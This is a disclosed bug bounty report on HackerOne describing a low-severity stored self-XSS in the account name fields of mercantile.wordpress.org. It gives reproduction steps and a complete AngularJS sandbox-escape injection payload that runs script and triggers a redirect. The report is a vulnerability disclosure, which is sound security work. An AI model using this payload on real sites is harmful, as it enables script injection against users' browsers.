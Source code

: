 # Stored but [SELF] XSS in mercantile.wordpress.org

## Report Details
- **Report ID**: 222224
- **URL**: https://hackerone.com/reports/222224
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-04-19T18:48:08.590Z
- **Disclosed**: 2017-05-26T18:46:44.901Z

## Reporter
- **Username**: codertom
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hi Wordpress and to Iandunn

   This was what I am talking about lately so I will go up straight on how to reproduce it.

###Steps to Reproduce
1. Go to mercantile.wordpress.org //make sure to have an account for this test :D 
2. Hover on *Account Details* `/my-account/edit-account/` 
3. In `First Name` and `Last Name` copy and paste this payload: 
`{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,$location.path('http://example.com/)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}` after that save it
4. After saving it refresh the browser and the xss will trigger with the domain in it.

 Upon registration of accounts it restricts symbols for the fields in `First Name` and `Last Name` but after being registered we can easily edit it here to inject some good payloads

Kind Regards,
Tom


## Attachments
No attachments
